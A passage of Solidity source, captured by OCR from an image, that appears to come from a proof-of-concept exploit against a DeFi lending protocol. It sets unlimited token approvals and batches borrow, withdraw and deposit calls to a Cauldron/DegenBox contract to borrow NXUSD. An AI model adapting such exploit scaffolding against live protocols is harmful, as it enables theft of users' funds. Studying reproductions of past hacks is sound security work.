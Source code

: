 │          * borrow NXUSD                                                                                                                                                                                                                              │
│         */                                                                                                                                                                                                                                           │
│         // set contract apporval                                                                                                                                                                                                                     │
│         NXUSD.approve(address(CRVPool1), type(uint).max);                                                                                                                                                                                            │
│         Pair.approve(address(DegenBox), type(uint).max);                                                                                                                                                                                             │
│         DegenBox.setMasterContractApproval(                                                                                                                                                                                                          │
│             address(this),                                                                                                                                                                                                                           │
│             masterContract,                                                                                                                                                                                                                          │
│             true,                                                                                                                                                                                                                                    │
│             0,                                                                                                                                                                                                                                       │
│             0,                                                                                                                                                                                                                                       │
│             0                                                                                                                                                                                                                                        │
│         );                                                                                                                                                                                                                                           │
│         // update rate                                                                                                                                                                                                                               │
│         CauldronV2.updateExchangeRate();                                                                                                                                                                                                             │
│         // cook function in CauldronV2                                                                                                                                                                                                               │
│         bytes[] memory datas = new bytes[](4);                                                                                                                                                                                                       │
│         datas[0] = abi.encode(borrowAmounts, address(this)); // type borrow                                                                                                                                                                          │
│         datas[1] = abi.encode(NXUSD, address(this), borrowAmounts,share); // type withdraw                                                                                                                                                           │
│         datas[2] = abi.encode(Pair, address(this), 45330977931305070, share); // type deposit                                                                                                                                                        │
│         datas[3] = abi.encode(-2, address(this), false); // Collateral enter market                                                                                                                                                                  │